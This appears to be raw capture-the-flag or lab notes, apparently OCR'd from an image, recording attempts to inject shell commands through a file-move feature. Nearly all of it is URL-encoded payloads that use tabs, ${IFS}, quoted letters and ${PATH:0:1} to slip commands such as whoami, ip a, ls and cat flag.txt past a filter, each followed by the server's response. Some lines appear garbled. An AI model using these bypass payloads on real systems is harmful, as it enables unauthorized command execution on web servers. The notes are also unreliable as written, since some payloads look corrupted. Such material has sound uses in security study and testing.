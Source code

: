 Tabs : %09
Using ${IFS}

%09%26
${IFS}%26
%26
Error while moving: mv: cannot stat


%09%26%26
${IFS}%26%26
${IFS}%26%26
Error while moving: bash: -c: line 1: syntax error: unexpected endofile

%09%26ip${IFS}a
${IFS}%26ip${IFS}a
%26ip${IFS}a
%09%26%26ip${IFS}a
${IFS}%26%26ip${IFS}a
${IFS}%26%26ip${IFS}a

Malicious request detected

%09%26w"ho"ami
${IFS}%26w"ho"ami
%26w"ho"ami
%09%26%26w"ho"ami
${IFS}%26%26w"ho"ami
${IFS}%26%26w"ho"ami

Payload:	%09%26w"ho"ami

--> OK

%09%26c"a"t%09/flag.txt

Malicious request detected

%09%26c"a"t%09${PATH:0:1}flag.txt

400 Bad Request

%09%26{ls,-la}%09${PATH:0:1}

400 Bad Request

%09%26{ls,-la}

400 Bad Request

%09%26%7Bls%2C-la%7D

Malicious request detected

%09%26%c"a"t%09%24%7BPATH%3A0%3A1%7Dflag.txt

{PATH:0:1}var{PATH:0:1}www{PATH:0:1}html{PATH:0:1}files{PATH:0:1}tmp{PATH:0:1}51459716.txt 

%09%26%c"a"t%09%7BPATH%3A0%3A1%7Dvar%7BPATH%3A0%3A1%7Dwww%7BPATH%3A0%3A1%7Dhtml%7BPATH%3A0%3A1%7Dfiles%7BPATH%3A0%3A1%7Dtmp%7BPATH%3A0%3A1%7D51459716.txt%20%0A
